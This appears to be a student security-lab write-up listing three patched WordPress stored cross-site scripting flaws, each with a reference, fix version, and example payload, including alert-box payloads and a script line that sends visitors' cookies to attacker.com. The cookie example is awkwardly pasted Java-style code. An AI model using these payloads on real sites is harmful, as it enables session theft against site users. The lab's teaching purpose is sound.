 # Week-7-Project-WordPress-vs.-Kali


[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS) \n
    Reference: https://www.exploit-db.com/exploits/36844/
[i] Fixed in: 4.2.1
If triggered by a logged-in administrator, under default settings the attacker can leverage the vulnerability to 
execute arbitrary code on the server via the plugin and theme editors.
  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px x
<img src="https://i.imgur.com/kKKLoZh.gif" width="800">


[!] Title: WordPress <= 4.2.3 - Widgets Title Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8131
[i] Fixed in: 4.2.4
Top 10 2013-A3-Cross-Site Scripting (XSS)
https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)
If the attacker could trick the admin to post this as a comment:
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.") + "'>";
we would get a working XSS exploit that would forward wpdistillery.vm visitors to attacker.com
<img src="https://i.imgur.com/3mrNRXU.gif" width="800">


[!] Title: WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
    Reference: https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
This issue was patched in WordPress 4.7.3.
If the attacker could trick the admin to post this as a comment:
<embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'></embed>
we could get a stored XSS exploit.
<img src="https://i.imgur.com/msRn9YG.gif" width="800">

